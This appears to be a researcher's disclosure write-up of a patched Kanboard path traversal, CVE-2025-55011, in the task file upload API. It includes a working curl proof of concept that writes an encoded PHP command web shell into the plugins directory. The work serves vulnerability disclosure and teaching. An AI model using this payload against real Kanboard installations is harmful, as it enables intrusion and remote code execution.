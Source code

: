 ```yaml
---
layout: post
title: "Kanboard CVE-2025-55011"
category: cve
tags: [kanboard, cve-2025-55011, security]
cvss_score: 6.4
cvss_vector: "CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N"
---
```


<style>
pre {
  margin-top: 1.5em;   /* space above */
  margin-bottom: 1.5em !important; /* space below */
}
</style>

## Path Traversal in Task File Upload API Leads To Arbitrary File Write
{% if page.cvss_score %}
  {% include cvss.html score=page.cvss_score vector=page.cvss_vector %}
{% endif %}
### Identifying the Vulnerability
File upload vulnerabilities are often a great way to exploit an app. A couple clicks of a button and... BOOM! The server is now yours.  That's why I always make it a priority to check how files are sanitized when uploaded to an app.

When examining Kanboard's file-related protections, I noticed that a lot of work had been done on `read` protecting key files from path traversal, particularly by this method in `FileStorage.php`.

```php
/**
 * Fetch object contents
 *
 * @access public
 * @throws ObjectStorageException
 * @param  string  $key
 * @return string
 */
public function get($key)
{
    return file_get_contents($this->getRealFilePath($key));
}


private function getRealFilePath($key)
{
    $realFilePath = realpath($this->baseDir.DIRECTORY_SEPARATOR.$key);

    if ($realFilePath === false) {
        throw new ObjectStorageException('Invalid path: '.$key);
    }

    if (strpos($realFilePath, $this->baseDir) !== 0) {
        throw new ObjectStorageException('File is not in base directory: '.$realFilePath);
    }

    if (! file_exists($realFilePath)) {
        throw new ObjectStorageException('File not found: '.$realFilePath);
    }

    return $realFilePath;
}
```

However, I soon notice that on the `write` side of things (aka file upload), similar restrictions were not in place.

```php
/**
 * Save object
 *
 * @access public
 * @throws ObjectStorageException
 * @param  string  $key
 * @param  string  $blob
 */
public function put($key, &$blob)
{
    $this->createFolder($key);

    if (file_put_contents($this->baseDir.DIRECTORY_SEPARATOR.$key, $blob) === false) {
        throw new ObjectStorageException('Unable to write the file: '.$this->baseDir.DIRECTORY_SEPARATOR.$key);
    }
}
```

With this in mind, I decided to see if there were any places within the app where path traversal would be possible when writing a file. I then came across the following in `TaskFileProcedure.php`. 

```php
 public function createTaskFile($project_id, $task_id, $filename, $blob) 
 { 
     ProjectAuthorization::getInstance($this->container)->check($this->getClassName(), 'createTaskFile', $project_id); 
  
     try { 
         return $this->taskFileModel->uploadContent($task_id, $filename, $blob); 
     } catch (ObjectStorageException $e) { 
         $this->logger->error(__METHOD__.': '.$e->getMessage()); 
         return false; 
     } 
 } 
```
As can be seen, the method takes in a `project_id`, `task_id`, `filename`, and a `blob`. Note that the `project_id` appears to be validated in the first line, but the other params are not.

Going further down the method chain into `FileModel.php`, we can see how the file path is generated for a file about to be written.

```
/**
 * Generate the path for a new filename
 *
 * @access public
 * @param  integer   $id            Foreign key
 * @param  string    $filename      Filename
 * @return string
 */
public function generatePath($id, $filename)
{
    return $this->getPathPrefix().DIRECTORY_SEPARATOR.$id.DIRECTORY_SEPARATOR.hash('sha1', $filename.time());
}
```

Note that we cannot influence the final file name, as the file name we supply will be `SHA-1` hashed with the current timestamp.  However, we do control the `id` field via `task_id`, and from what we saw before, this means that we have full control over the directory we want to place the file in! All we have to do is use a payload like:

```
"project_id": 1,
"task_id": "../../../plugins",
"filename": "shell.php",
"blob": "PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7ID8+"
```

Since the app by default blocks execution of all files in the `/data` directory, we can use this path traversal to our advantage and escape the data directory to hopefully trigger execution.

### Exploiting

Assuming the base installation of Kanboard via docker, the following folders will be writable. Fortunately with the default container settings these are relatively low-risk.

```
/run/nginx
/var/lib/nginx
/var/lib/nginx/tmp
/var/lib/nginx/tmp/fastcgi
/var/lib/nginx/tmp/client_body
/var/lib/nginx/tmp/uwsgi
/var/lib/nginx/tmp/scgi
/var/lib/nginx/tmp/proxy
/var/log/nginx
/var/www/app/plugins
/var/www/app/data
/var/www/app/data/cache
/var/www/app/data/files
/var/www/app/data/files/tasks
/var/www/app/data/files/tasks/1
/proc/acpi
/proc/asound
/tmp
/dev/mqueue
/dev/shm
/var/tmp
/sys/firmware
```

However on a manual installation outside of the docker setup, this exploit could be much riskier. If a user denies all execution in the data directory but allows it from anywhere else, an attacker could write a reverse shell to plugins and immediately gain remote code execution and greatly increase the severity.

### PoC
Running Kanboard 1.2.46 inside docker on locahost:3000.

1. After creating a project, make the following curl requst:

    ```
    curl -X POST http://localhost:3000/jsonrpc.php \
    -u admin:admin \
    -H "Content-Type: application/json" \
    -d '{
    "jsonrpc": "2.0",
    "method": "createTaskFile",
    "id": 1,
    "params": {
      "project_id": 1,
      "task_id": "../../../plugins",
      "filename": "shell.php",
      "blob": "PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7ID8+"
    }
    }'
    ```
2. In the docker container notice that a file has been created in the /plugins directory with a php reverse shell as it's contents (fortunately it's not executable in the docker setup, but could be on user installations).

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/kanboard/file_created.png" alt="Password Reset" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>


### Final Thoughts
Developers are always paranoid about arbitrary file read, but often times file write can be just as deadly. What's more, even if obvious parameters like `filename` are sanitized, if other parameters are used in the path (like `task_id`) path traversal can still be possible.

Note that this has been patched and a security advisory has been published here: [GHSA-26f4-rx96-xc55 advisory](https://github.com/kanboard/kanboard/security/advisories/GHSA-26f4-rx96-xc55)
 
